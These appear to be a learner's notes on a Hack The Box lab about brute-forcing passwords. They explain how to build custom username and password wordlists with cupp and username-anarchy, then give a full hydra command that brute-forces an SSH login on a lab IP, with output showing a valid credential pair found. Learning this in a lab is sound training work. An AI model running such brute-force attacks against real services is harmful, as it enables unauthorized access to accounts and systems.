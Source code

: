 As a starting point, we will stick to the wordlist we have generated  
so far and not perform any mangling on it. In case our wordlist does not  
hit a successful login, we will go back to these tools and perform some  
mangling to increase our chances of guessing the password.

Tip: The more mangled a wordlist is, the more chances  
you have to hit a correct password, but it will take longer to brute  
force. So, always try to be efficient, and properly customize your  
wordlist using the intelligence you gathered.

💡

we used cupp -i to make a custom pass list

💡

we used username-anarchy to make custom userName list

  

## Service Authentication Brute Forcing

we will learn how to brute force into ( service authentication )

Q: what is Service Authentication , how it diff from normal login form ?

A: Service Authentication verifies the identity of applications or systems to other services, often using API keys, tokens, or certificates. In contrast, a normal login form is for human users and typically relies on a username and password.

### SSH secure shell

The command used to attack a login service is fairly straightforward.  
We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH`  
limit the number of parallel connections and drop other connections,  
resulting in many of our attempts being dropped. Our final command  
should be as follows:

```
KareemAlsadeq@htb[/htb]$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

